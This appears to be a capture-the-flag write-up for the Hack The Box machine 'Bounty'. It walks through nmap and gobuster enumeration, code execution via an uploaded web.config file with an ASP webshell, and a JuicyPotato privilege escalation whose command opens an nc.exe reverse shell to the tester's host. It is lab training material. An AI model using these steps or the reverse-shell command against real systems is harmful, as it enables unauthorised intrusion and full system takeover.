






# Bounty
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.93                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 16:26 BST
Nmap scan report for 10.10.10.93 (10.10.10.93)
Host is up (0.098s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.31 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x asp,aspx 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,apsx
[+] Timeout:                 10s
===============================================================
2023/06/10 16:39:26 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
Progress: 661634 / 661683 (99.99%)
===============================================================
2023/06/10 17:15:00 Finished
===============================================================
```
- Web server


## Foothold/User
- We see `transfer.aspx` and `uploadedFiles` endpoints available




- Let's upload a file
  - Success


- But I couldn't upload a file with `aspx` extension
  - there is a [blog](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
  - and [this one](https://soroush.me/blog/2019/08/uploading-web-config-for-fun-and-profit-2/) from the same author
  - Test out the `poc`
  - And we see that we have `rce`


- I was trying different variations of `poc` but had no success
  - Turns out, I broke the box so I needed to reboot it
  - Then I used the same `poc` from the first blog as in the picture above
  - But added few modifications, using `/usr/share/webshells/asp/cmdasp.asp`




- Let's upload and run it
  - And we get our foothold




## Root
- Enumerate privileges
  - `whoami /priv`
  - We see `SeImpersonatePrivilege`



- Let's run [JuicyPotato](https://github.com/decoder-it/juicy-potato)
  - So download `binary` and `nc.exe`
  - Set up new listener
  - `.\jp.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\downloads\nc.exe 10.10.16.3 7777 -e cmd.exe" -t *`
  - And root the box


